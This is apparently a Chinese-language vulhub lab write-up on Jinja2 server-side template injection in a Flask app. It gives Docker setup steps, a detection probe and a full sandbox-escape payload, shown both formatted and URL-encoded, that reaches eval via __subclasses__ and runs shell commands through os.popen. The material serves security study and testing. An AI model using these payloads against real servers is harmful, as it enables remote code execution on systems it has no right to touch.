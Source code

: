 # CVE-2019-8341 Flask（Jinja2） 服务端模板注入漏洞

Flask服务的模板中拼接了恶意用户输入导致各种漏洞

- 在模板环境中注册函数，可访问python中的一些内置函数及其方法；
- 可利用Python 沙盒环境逃逸绕过注册方式，进而调用python内置对象；

## 应用介绍

Flask是一个微型的Python开发的Web框架，基于Werkzeug WSGI工具箱和Jinja2 模板引擎。 
Flask使用起来非常简单，应用Extension增加其他功能：ORM、窗体验证工具、文件上传、各种开放式身份验证技术。

## 环境构建

```shell
cd ~/vulhub/flask/ssti
docker-compose up -d
```
不报错就说明启动成功，可以通过 `docker ps` 命令查看活动容器的状态。

## 漏洞相关知识

```
__bases__    #以元组返回一个类直接所继承的类
__mro__      #以元组返回继承关系链
__class__    #返回对象所属的类
__globals__  #以dict返回函数所在模块命名空间中的所有变量
__subclasses__()  #以列表返回类的子类
_builtin_  #内建函数，python中可以直接运行一些函数，例如int(),list()等等，这些函数可以在__builtins__中可以查到。

补充：在py3中__builtin__被换成了builtin
```

## 手工检测方式

访问 `http://X.X.X.X:8000/?name={{2*3}}`

![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed2/20210629132531.png)


看下payload格式化后的内容：
```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed2/20210629134247.png)

EXP:
```
http://127.0.0.1:5000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22calc%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
```